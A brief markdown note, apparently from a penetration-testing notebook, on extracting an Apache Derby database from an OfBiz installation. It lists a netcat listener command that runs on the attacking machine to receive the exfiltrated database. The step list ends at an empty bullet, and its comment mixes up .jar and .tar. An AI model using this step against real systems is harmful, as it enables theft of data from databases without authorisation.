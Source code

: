 # Apache Derby Embedded Java Database

### Encountered in applications: 

#### 1) OfBiz (Location: /opt/ofbiz)

## Database extraction

### Steps

 - sudo apt install derby-tools (Install the tool needed to interact with the database)

 - nc -nlvp 4444 > ofbiz.tar (On attacking machine, run netcat to open a port, then send all data to the .jar file to download the database)

 - 
